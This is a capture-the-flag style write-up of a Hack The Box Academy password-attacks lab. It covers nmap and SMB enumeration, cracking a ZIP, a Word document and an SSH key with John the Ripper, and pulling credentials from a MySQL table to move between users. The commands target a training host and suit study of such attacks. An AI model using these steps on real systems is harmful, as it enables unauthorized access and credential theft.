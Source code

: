 # Password Attacks Lab - Medium  

[Password Attacks Lab - Medium](https://academy.hackthebox.com/module/147/section/1335)  

>Host is a workstation used by an employee for their day-to-day work. 
>These types of hosts are often used to exchange files with other employees and are typically administered by administrators over the network.
>During a meeting with the client, we were informed that many internal users use this host as a jump host. 
>The focus is on securing and protecting files containing sensitive information.  

## Enumeration  

>NMAP Scans and results:  

```
sudo nmap -p 22,139,445 10.129.202.221 -sCV -A -O

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
|   256 7b:30:37:67:50:b9:ad:91:c0:8f:f7:02:78:3b:7c:02 (ECDSA)
|_  256 88:9e:0e:07:fe:ca:d0:5c:60:ab:cf:10:99:cd:6c:a7 (ED25519)
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (97%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: SKILLS-MEDIUM, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: 1s
| smb2-time: 
|   date: 2023-07-16T17:43:55
|_  start_date: N/A
```  

### SMB  

>Enumerate if any shares allow anonymous or null unauthenticated read of data and files.

```
smbmap -u '' -H 10.129.202.221
```  

>Discovering a share `SHAREDRIVE` that allow read access anonymously.  

```
smbclient -N \\\\10.129.202.221\\SHAREDRIVE

get Docs.zip
```

>Extract the ZIP password hash, and then Crack password protected zip file using `John`.  

```
zip2john Docs.zip >docs.hash

john docs.hash --wordlist=resources/demo-pass.lst
```  

>Cracking the Office Document DOCX file password with `office2john`. [Cracking Documents](https://academy.hackthebox.com/module/147/section/1322)  

```
office2john Documentation.docx >office.hash

john office.hash --show
```

>Office DOCX file password cracked as `987654321`, and discover the Microsoft Word Document content as below.  

![office2john-Password-Attacks-Lab-Medium](/images/office2john-Password-Attacks-Lab-Medium.png)  

>Discovered password information from word document, as below:  

```

Root password is jason:C4mNKjAtL2dydsYa6
>10.129.200.21</inlane.configure.localIp>

http://localhost:8080/cms 
```  

## Foothold

>Gain access to target as `jason` via ssh with the password `C4mNKjAtL2dydsYa6`.  

>Based on the document discovered, enumeration indicate local internal HTTP service on port 8080.

### Local Service Discovery  

>[Dynamic Port Forwarding with SSH and SOCKS Tunneling](https://academy.hackthebox.com/module/158/section/1426)  
>`netstat` and `ss` commands to determine internal ports not accessible on victim from kali externally.   

```
netstat -antup

ss -tulpn
```  

![netstat-Password-Attacks-Lab-Medium](/images/netstat-Password-Attacks-Lab-Medium.png)  

>Discovered MySQL on port 3306 internally.
>Using credentials for `jason` and password of `C4mNKjAtL2dydsYa6` to connect locally to SQL.  

```
mysql -u jason -p

show databases;
use users;
show tables;

select * from creds where name like 'dennis';
```  

![SQL-Password-Attacks-Lab-Medium](/images/SQL-Password-Attacks-Lab-Medium.png)  

## Lateral Movement  

>Logged in as `dennis` user with the discovered crednetials on the internal MySQL service, creds table.

```
su dennis

cd /home/dennis/.ssh
cat id_rsa
```   

>Crack the id_rsa key password for `dennis` using John.  

```
ssh2john id_rsa_dennis.ssh > ssh.hash

john ssh.hash --wordlist=../mut_password.list

ssh dennis@10.129.202.221 -i id_rsa_dennis.ssh
```




